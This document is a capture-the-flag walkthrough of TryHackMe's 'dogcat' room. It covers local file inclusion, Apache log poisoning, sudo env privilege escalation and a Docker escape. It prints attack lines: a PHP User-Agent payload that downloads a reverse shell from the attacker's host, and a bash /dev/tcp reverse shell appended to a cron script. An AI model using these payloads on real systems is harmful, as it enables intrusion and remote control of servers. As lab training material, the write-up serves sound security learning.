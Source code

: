 ```yaml
---
description: Logs, apache web server, docker container, linux escalation
---
```


# 😼 DogCat walkthrough / logs poisoning

```javascript
"21.05.2024"
```

{% embed url="https://tryhackme.com/r/room/dogcat" %}
Link to CTF on TryHackMe
{% endembed %}

## Initial target Enumeration

Today, we will attempt to escape from a Docker container that hosting a web server page.

Traditionally, let’s start with a basic nmap scan:

```bash
nmap target_ip
```

<figure><img src="../.gitbook/assets/sh-3.2# nmap 10.10.72.49.png" alt=""><figcaption></figcaption></figure>

We see that port 22 (SSH) and port 80 (HTTP) are open. Let's take a more in-depth look and run nmap basic scripts with version defining scan on those ports.

{% code fullWidth="false" %}
```bash
nmap -sC -sV -p22,80 target_ip
```
{% endcode %}

Nothing valuable was found by the nmap scan, so let’s move further.

## Searching the Web

The web page which is running on port 80 provided us with a few interesting things:

1. We can press a button (A dog / A cat) to print a random image of the chosen animal from the web folder.
2. In the URL, we have a ‘view=‘ attribute which we will explore now&#x20;

<figure><img src="../.gitbook/assets/Pasted Graphic 2 (1).png" alt=""><figcaption></figcaption></figure>

After playing around with the URL, we can determine that the ‘view=‘ attribute is designed to print a file from the local system. Therefore, we can try to print the content of /etc/passwd to confirm this and potentially identify valid system users or exploit a 'no root password' vulnerability.

<figure><img src="../.gitbook/assets/Pasted Graphic 3.png" alt=""><figcaption></figcaption></figure>

Unfortunately, we were redirected to the main page. Let’s find out why that happened. After some basic manipulation with the variable of the ‘view=‘ attribute, we managed to find that to bypass the filter, the string ‘cat’ or ‘dog’ needs to be included in it. So, I tried to use a null byte after the path to the file and encountered an error.

<figure><img src="../.gitbook/assets/Pasted Graphic 4.png" alt=""><figcaption></figcaption></figure>

With that error code, we can tell that the index.php file is using the include() function to open files from the local system. Let's try a different way of including the word ‘cat’ into the URL.

<figure><img src="../.gitbook/assets/Pasted Graphic 5 (4).png" alt=""><figcaption></figcaption></figure>

### Exploring target infrastructure&#x20;

With the following attribute in the ‘view=‘ parameter, we are using the 'cat' directory as the starting point to move outside to our main destination (/etc/passwd). However, we faced the following problem: the .php extension was automatically added by a function inside the index.php file. So, let’s try to print the content of this file using the method of converting it into base64 format to bypass the include function security filters.

Error code when trying to output the content of the index.php file without the base64 filter:

<figure><img src="../.gitbook/assets/Pasted Graphic 6.png" alt=""><figcaption></figcaption></figure>

Output with base64 filter in use:

<figure><img src="../.gitbook/assets/Pasted Graphic 7.png" alt=""><figcaption></figcaption></figure>

Let’s copy that base64 value and decode it on our system. Use \`echo\` to write copied value into the file, and \`base64\` with \`-d\` flag for decoding, \`-i\` flag stands for input, and \`-o\` flag which defines the output file.

```bash
echo base64_string > hash
base64 -i hash -o decoded_value 
```

<figure><img src="../.gitbook/assets/Pasted Graphic 9 (1).png" alt=""><figcaption></figcaption></figure>

### Index.php

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

In the index.php file, we see a few important things:

1\. As we mentioned earlier, there is a filter that allows file paths only with the strings ‘dog’ or ‘cat’ included.

2\. There is an ‘ext’ attribute that is used for changing extensions of the path to the file provided into the include function.&#x20;

From here, as the server is running on Apache, we can try to use the log poisoning technique. We will send a request to the server with a user-agent set to a PHP script which will download the reverse shell from our system into the target host folder.

Let’s firstly prove that we have access to the /var/log/apache2/access.log file, which contains information about all requests made on the server.

<figure><img src="../.gitbook/assets/Pasted Graphic 11 (2).png" alt=""><figcaption></figcaption></figure>

## Sending the payload

Let’s start python http server with already prepared reverse php shell ( I have used pentestmonkey/php\_reverse\_shell ), and metasploit listener with port and ip provided in shell.php file&#x20;

```bash
msfconsole -q 
use exploit/multi/handler 
set LPORT 4443
set LHOST your_vpn_ip
run 

python3 -m http.server 
```

<figure><img src="../.gitbook/assets/Pasted Graphic 12 (2).png" alt=""><figcaption></figcaption></figure>

Now we can sent get request with modified user-agent.

```bash
curl http://target_ip/ -H "User-Agent:<?php file_put_contents( 'shell.php', file_get_contents'http://your_vpn_ip:8000/shell.php'))?>"
```

<figure><img src="../.gitbook/assets/Pasted Graphic 13 (1).png" alt=""><figcaption></figcaption></figure>

Now, we need to refresh the page with content of the access.log file to activate our PHP script. After that, we can open /shell.php on the target machine and obtain a shell in Metasploit.

<figure><img src="../.gitbook/assets/Pasted Graphic 14.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Pasted Graphic 15.png" alt=""><figcaption></figcaption></figure>

We landed in the www-data user, so let’s look for flags and try to escalate our privileges. In /var/www and /var/www/html, we managed to find our first and second flags.

<figure><img src="../.gitbook/assets/total 44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Pasted Graphic 16 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">**Flag 1**</mark> && <mark style="color:green;">**Flag 2**</mark>&#x20;
{% endhint %}

## Privileges escalation

After running `sudo -l`, we see that we can run `/env` with sudo privileges. So, let’s use that to elevate our privileges to the root user and obtain the third flag.&#x20;

<figure><img src="../.gitbook/assets/$ sudo -1.png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">**Flag 3**</mark> / <mark style="color:green;">**4**</mark>
{% endhint %}

### Escaping docker container

Now, we need to move out of the Docker container. After some investigation, I was able to find the backup.sh file that runs every minute.

<figure><img src="../.gitbook/assets/optbackupsbackup.sh.png" alt=""><figcaption></figcaption></figure>

Let's input basic Bash reverse shell command into it, move to background session, and initiate a Metasploit listener.

```bash
echo "bash -i >& /dev/tcp/your_vpn_ip/4242 0>&1" >> /opt/backups/backup.sh
```

<figure><img src="../.gitbook/assets/Pasted Graphic 22.png" alt=""><figcaption></figcaption></figure>

Within few minutes we got shell in metasploit and the last flag.

<figure><img src="../.gitbook/assets/Pasted Graphic 23.png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">**4**</mark> / <mark style="color:green;">**4**</mark>&#x20;
{% endhint %}

Thanks to all the readers for following along with my journey! Hope you have learnt something new, and this challenge wasn’t big problem for you.
